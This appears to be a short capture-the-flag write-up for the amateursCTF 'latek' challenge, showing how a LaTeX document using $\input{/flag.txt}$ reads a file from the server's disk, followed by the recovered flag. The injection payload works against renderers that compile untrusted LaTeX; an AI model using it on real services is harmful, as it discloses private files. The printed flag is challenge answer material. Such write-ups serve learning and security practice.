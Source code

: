 # latek

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/aebb79cd-4a70-4c43-acec-933a88fa5a77)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/bad4708d-656d-4e57-b3d2-470a0a6b2a58)

## solution

first of all, why tf is it pronounced "latek"??, who decided it rolled off the tongue better than "latex"??????? angry

we can try to use the `\input{<path>}` to inject any file on disk to the latex document

however, there is an error so we cannot get the full flag:

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/9c277e94-004b-4e7c-8403-ae15ff9db5a2)

we can surround the input command with `$` and it works

total payload:

```latex
\documentclass{article}
\begin{document}
$\input{/flag.txt}$
\end{document}
```
![image](https://github.com/quasar098/ctf-writeups/assets/70716985/553638ab-779f-4dc3-ae20-bc62a7a0c14b)

i'm not quite sure what rc3 is

i know that `_` before a character means it is subscripted, so we can do the reverse to get the flag

`amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`
